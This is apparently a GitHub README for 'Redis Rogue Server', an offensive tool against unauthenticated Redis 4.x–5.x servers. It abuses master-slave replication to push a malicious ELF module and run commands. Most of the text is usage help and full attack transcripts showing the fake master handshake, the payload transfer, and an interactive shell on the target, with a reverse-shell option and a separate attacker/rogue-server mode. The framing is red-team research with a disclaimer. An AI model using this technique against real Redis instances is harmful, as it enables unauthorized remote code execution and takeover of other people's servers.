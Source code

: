 ### Awesome Redis Rogue Server Research

This document details research on the **Redis Rogue Server** technique for exploiting Redis instances with unauthorized access. Existing articles often lack a detailed explanation of its principles, so this study dives deeper, improving the existing `Rogue Server` Python exploitation code and `module.c` source code.

The core technologies involved are **Redis master-slave replication** and **external module loading**, with the attack strategy summarized as follows:

![Redis Rogue Server Diagram](https://i.loli.net/2019/12/20/KfcrkUu89joGe34.png)

---

### Features for Red Team Testing

- Rewritten external module memory allocation to avoid crashing the tested Redis server.
- More stable direct shell and reverse shell options.
- Separate `Rogue Server` mode.
- `Redis-Cli` and `Rogue Server` separation mode.
- Writable path testing.
- Standard error redirection.
- Optimized shell decoding issues.
- Randomized `.so` file names and module load names.
- Module unloading and `.so` file cleanup to maintain server functionality.
- Redis password authentication support (details in source code).

---

### Applicability
Compatible with **Redis 4.x to 5.x**.

---

### Usage

```bash
$ python3 redis_rogue_server.py -h

usage: python3 redis_rogue_server.py -rhost [target_ip] -lhost [rogue_ip] [Extend options]

Redis unauthenticated test tool.

optional arguments:
  -h, --help      show this help message and exit
  -rhost RHOST    Target host.
  -rport RPORT    Target port. [default: 6379]
  -lhost LHOST    Rogue Redis server, which the target host can reach. THIS IP MUST BE ACCESSIBLE BY THE TARGET!
  -lport LPORT    Rogue Redis server listening port. [default: 15000]
  -passwd PASSWD  Target Redis password.
  -path SO_PATH   "Evil" .so file path. [default: module.so]
  -t RTIMEOUT     Rogue server response timeout. [default: 3]
  -s              Separate mode: separates Redis-Cli (this IP) and Rogue Server (another IP).
                  Rogue Server port listens locally by default. Use flag `-s` to shut down local port if `lport` conflicts.
  -v              Verbose mode.

Examples:
  redis_rogue_server.py -rhost 192.168.0.1 -lhost 192.168.0.2
  redis_rogue_server.py -rhost 192.168.0.1 -lhost 192.168.0.2 -rport 6379 -lport 15000

Only Rogue Server Mode:
  redis_rogue_server.py -v
```

---

### Example Usage

```bash
$ python3 redis_rogue_server.py -rhost 192.168.229.136 -lhost 192.168.229.150 -v
[*] Init connection...
[+] Target accessible!
[*] Exploit Step-1.
[+] RDB dir: /home/test/Desktop/redis-5.0.7
[*] Done.
[+] Accept connection from 192.168.229.136:44674
[>>]b'*1\r\n$4\r\nPING\r\n'
[<<]b'+PONG\r\n'
[>>]b'*3\r\n$8\r\nREPLCONF\r\n$14\r\nlistening-port\r\n$4\r\n6379\r\n'
[<<]b'+OK\r\n'
[>>]b'*5\r\n$8\r\nREPLCONF\r\n$4\r\ncapa\r\n$3\r\neof\r\n$4\r\ncapa\r\n$6\r\npsync2\r\n'
[<<]b'+OK\r\n'
[>>]b'*3\r\n$5\r\nPSYNC\r\n$40\r\ne46ef23509ec51bb952dec34cb84e6c08388e5eb\r\n$1\r\n1\r\n'
[<<]b'+FULLRESYNC d2b79a2fbd16c050cdf136838f67093efb76509 1\r\n$45608\r\n\x7fELF\x02\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00>\x00\x01\x00\x00\x00 *\x00\x00\x00\x00\x00\x00@\x00\x00\x00\x00...'
[*] The Rogue Server Finished Sending the Fake Master Response.
[*] Wait for Redis IO and transaction flow to close...
[*] Exploit Step-2.
[*] Done.
[+] It may crash the target Redis server due to large data transfer. Be careful.
[?] Shell? [i]interactive,[r]reverse: i
[!] DO NOT USE THIS TOOL FOR MALICIOUS PURPOSES!
[+] =========================== Shell =============================
$ id
uid=1000(test) gid=1000(test) groups=1000(test),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare)
$ exit
[*] Please wait for auto exit. Cleaning....
[!] DO NOT SHUTDOWN IMMEDIATELY!
[*] Done.
```

---

### Separate Mode

- **Rogue Server:** `192.168.229.150`
- **Attacker:** `192.168.229.136`

In this mode, the `Rogue Server` is run separately from the attacker host's `Redis-Cli`. First, start the `Rogue Server`. Then, the attacker's `Redis-Cli` sends attack commands. The `Rogue Server` is hosted on a remote machine and doesn't run locally.

#### Rogue Server
```bash
python3 ./redis_rogue_server.py -v
[*] Listening on port: 15000
[+] Accept connection from 192.168.229.136:44762
[>>]b'*1\r\n$4\r\nPING\r\n'
[<<]b'+PONG\r\n'
[>>]b'*3\r\n$8\r\nREPLCONF\r\n$14\r\nlistening-port\r\n$4\r\n6379\r\n'
[<<]b'+OK\r\n'
[>>]b'*5\r\n$8\r\nREPLCONF\r\n$4\r\ncapa\r\n$3\r\neof\r\n$4\r\ncapa\r\n$6\r\npsync2\r\n'
[<<]b'+OK\r\n'
[>>]b'*3\r\n$5\r\nPSYNC\r\n$40\r\na62cf45a906d4a68422cac6f835108dbecb25f3b\r\n$1\r\n1\r\n'
[<<]b'+FULLRESYNC b79062efe2211aa8328ab4da3d501fa21b2ac54a 1\r\n$45608\r\n\x7fELF\x02\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00>\x00\x01\x00\x00\x00 *\x00\x00\x00\x00\x00\x00@\x00\x00\x00...'
[*] Wait for Redis IO and transaction flow to close...
```

#### Attacker
```bash
python3 redis_rogue_server.py -rhost 192.168.229.136 -lhost 192.168.229.150 -s -v
[*] Separate Mode. Please ensure your Rogue Server is listening.
[*] Init connection...
[+] Target accessible!
[*] Exploit Step-1.
[+] RDB dir: /home/test/Desktop/redis-5.0.7
[*] Done.
[*] Wait 3 secs for REMOTE Rogue Server response. (Use flag -t [N] to change timeout)
[!] Ensure your remote Rogue Server is working now!
[*] Exploit Step-2.
[*] Done.
[+] It may crash the target Redis server due to large data transfer. Be careful.
[?] Shell? [i]interactive,[r]reverse: i
[!] DO NOT USE THIS TOOL FOR MALICIOUS PURPOSES!
[+] =========================== Shell =============================
$ id
uid=1000(test) gid=1000(test) groups=1000(test),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare)
$ exit
```

---

### Module Source Code Modifications

Modify the `RedisModules/src/module.c` file and recompile:

```bash
$ vim ./RedisModules/src/module.c
$ cd RedisModules
$ make
```

---

### Reference
[RedisModules-ExecuteCommand Repository](https://github.com/RicterZ/RedisModules-ExecuteCommand)

---

### Disclaimer
This project is for security research and learning purposes only. Please comply with local laws and regulations. Any misuse is the sole responsibility of the user. **Use it only for research purposes.**
